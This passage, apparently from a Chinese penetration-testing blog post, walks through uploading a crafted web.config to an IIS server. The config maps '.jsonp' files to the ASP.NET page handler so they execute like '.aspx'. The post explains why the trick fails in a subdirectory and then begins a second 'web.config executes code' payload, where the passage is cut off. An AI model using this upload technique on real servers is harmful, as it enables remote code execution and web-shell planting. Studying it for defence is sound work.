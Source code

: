     <system.webServer>

        <staticContent>

            <mimeMap fileExtension=".jsonp" mimeType="application/javascript" />

        </staticContent>

        <handlers>

            <add name="xxxjsonp handlers" path="*.jsonp" verb="*" type="System.Web.UI.PageHandlerFactory" resourceType="Unspecified" preCondition="integratedMode" />

        </handlers>

    </system.webServer>

</configuration>

  

拆解一下这个配置：

  

configuration->system.web->compilation->buildProviders 标签，给 “.jsonp”
这个拓展名注册生成提供程序；

configuration->system.webServer->staticContent 标签，给 “.jsonp” 映射 MIMIE 类型；

configuration->system.webServer->handlers 标签，给 “.jsonp” 添加处理程序映射。

  

其中 buildProviders 和 而 handlers 标签的项目值  与C:\<.Net setup dir>\Config 下的
web.config 中给 “.aspx” 分配的是一致的，也就是说通过这个配置，服务端对 “.jsonp”的处理理论上和对
“.aspx”的处理就变得一致了。

  

一般情况下，以上三个标签的配置缺一不可，缺少任何一项都可能无法成功解析（特殊情况下，站点可能配置默认的 MIME 映射，此时 staticContent
标签可以忽略，如果寻求保险，加上去总是没错的）。

  

这个 payload 看起来非常靠谱，但是正当踌躇满志准备拿这个上去做试验效果的时候，惊喜的发现：

  

![](https://gitee.com/fuli009/images/raw/master/public/20230625172508.png)

本着不能随便改动根目录 web.config 的原则，我们上传到了一个全部都是静态文件的子目录，然后就发现了 buildProviders
无法在应用程序级别之下定义（应用程序级别的定义在位置上即应用程序根目录下的 web.config 定义），所以结果是无法生效的。

  

 **2\. 利用 web.config 自身执行代码**

参考链接：https://poc-server.com/blog/2018/05/22/rce-by-uploading-a-web-config/

  

还是先贴上 payload:

<?xml version="1.0" encoding="UTF-8"?>

<configuration>
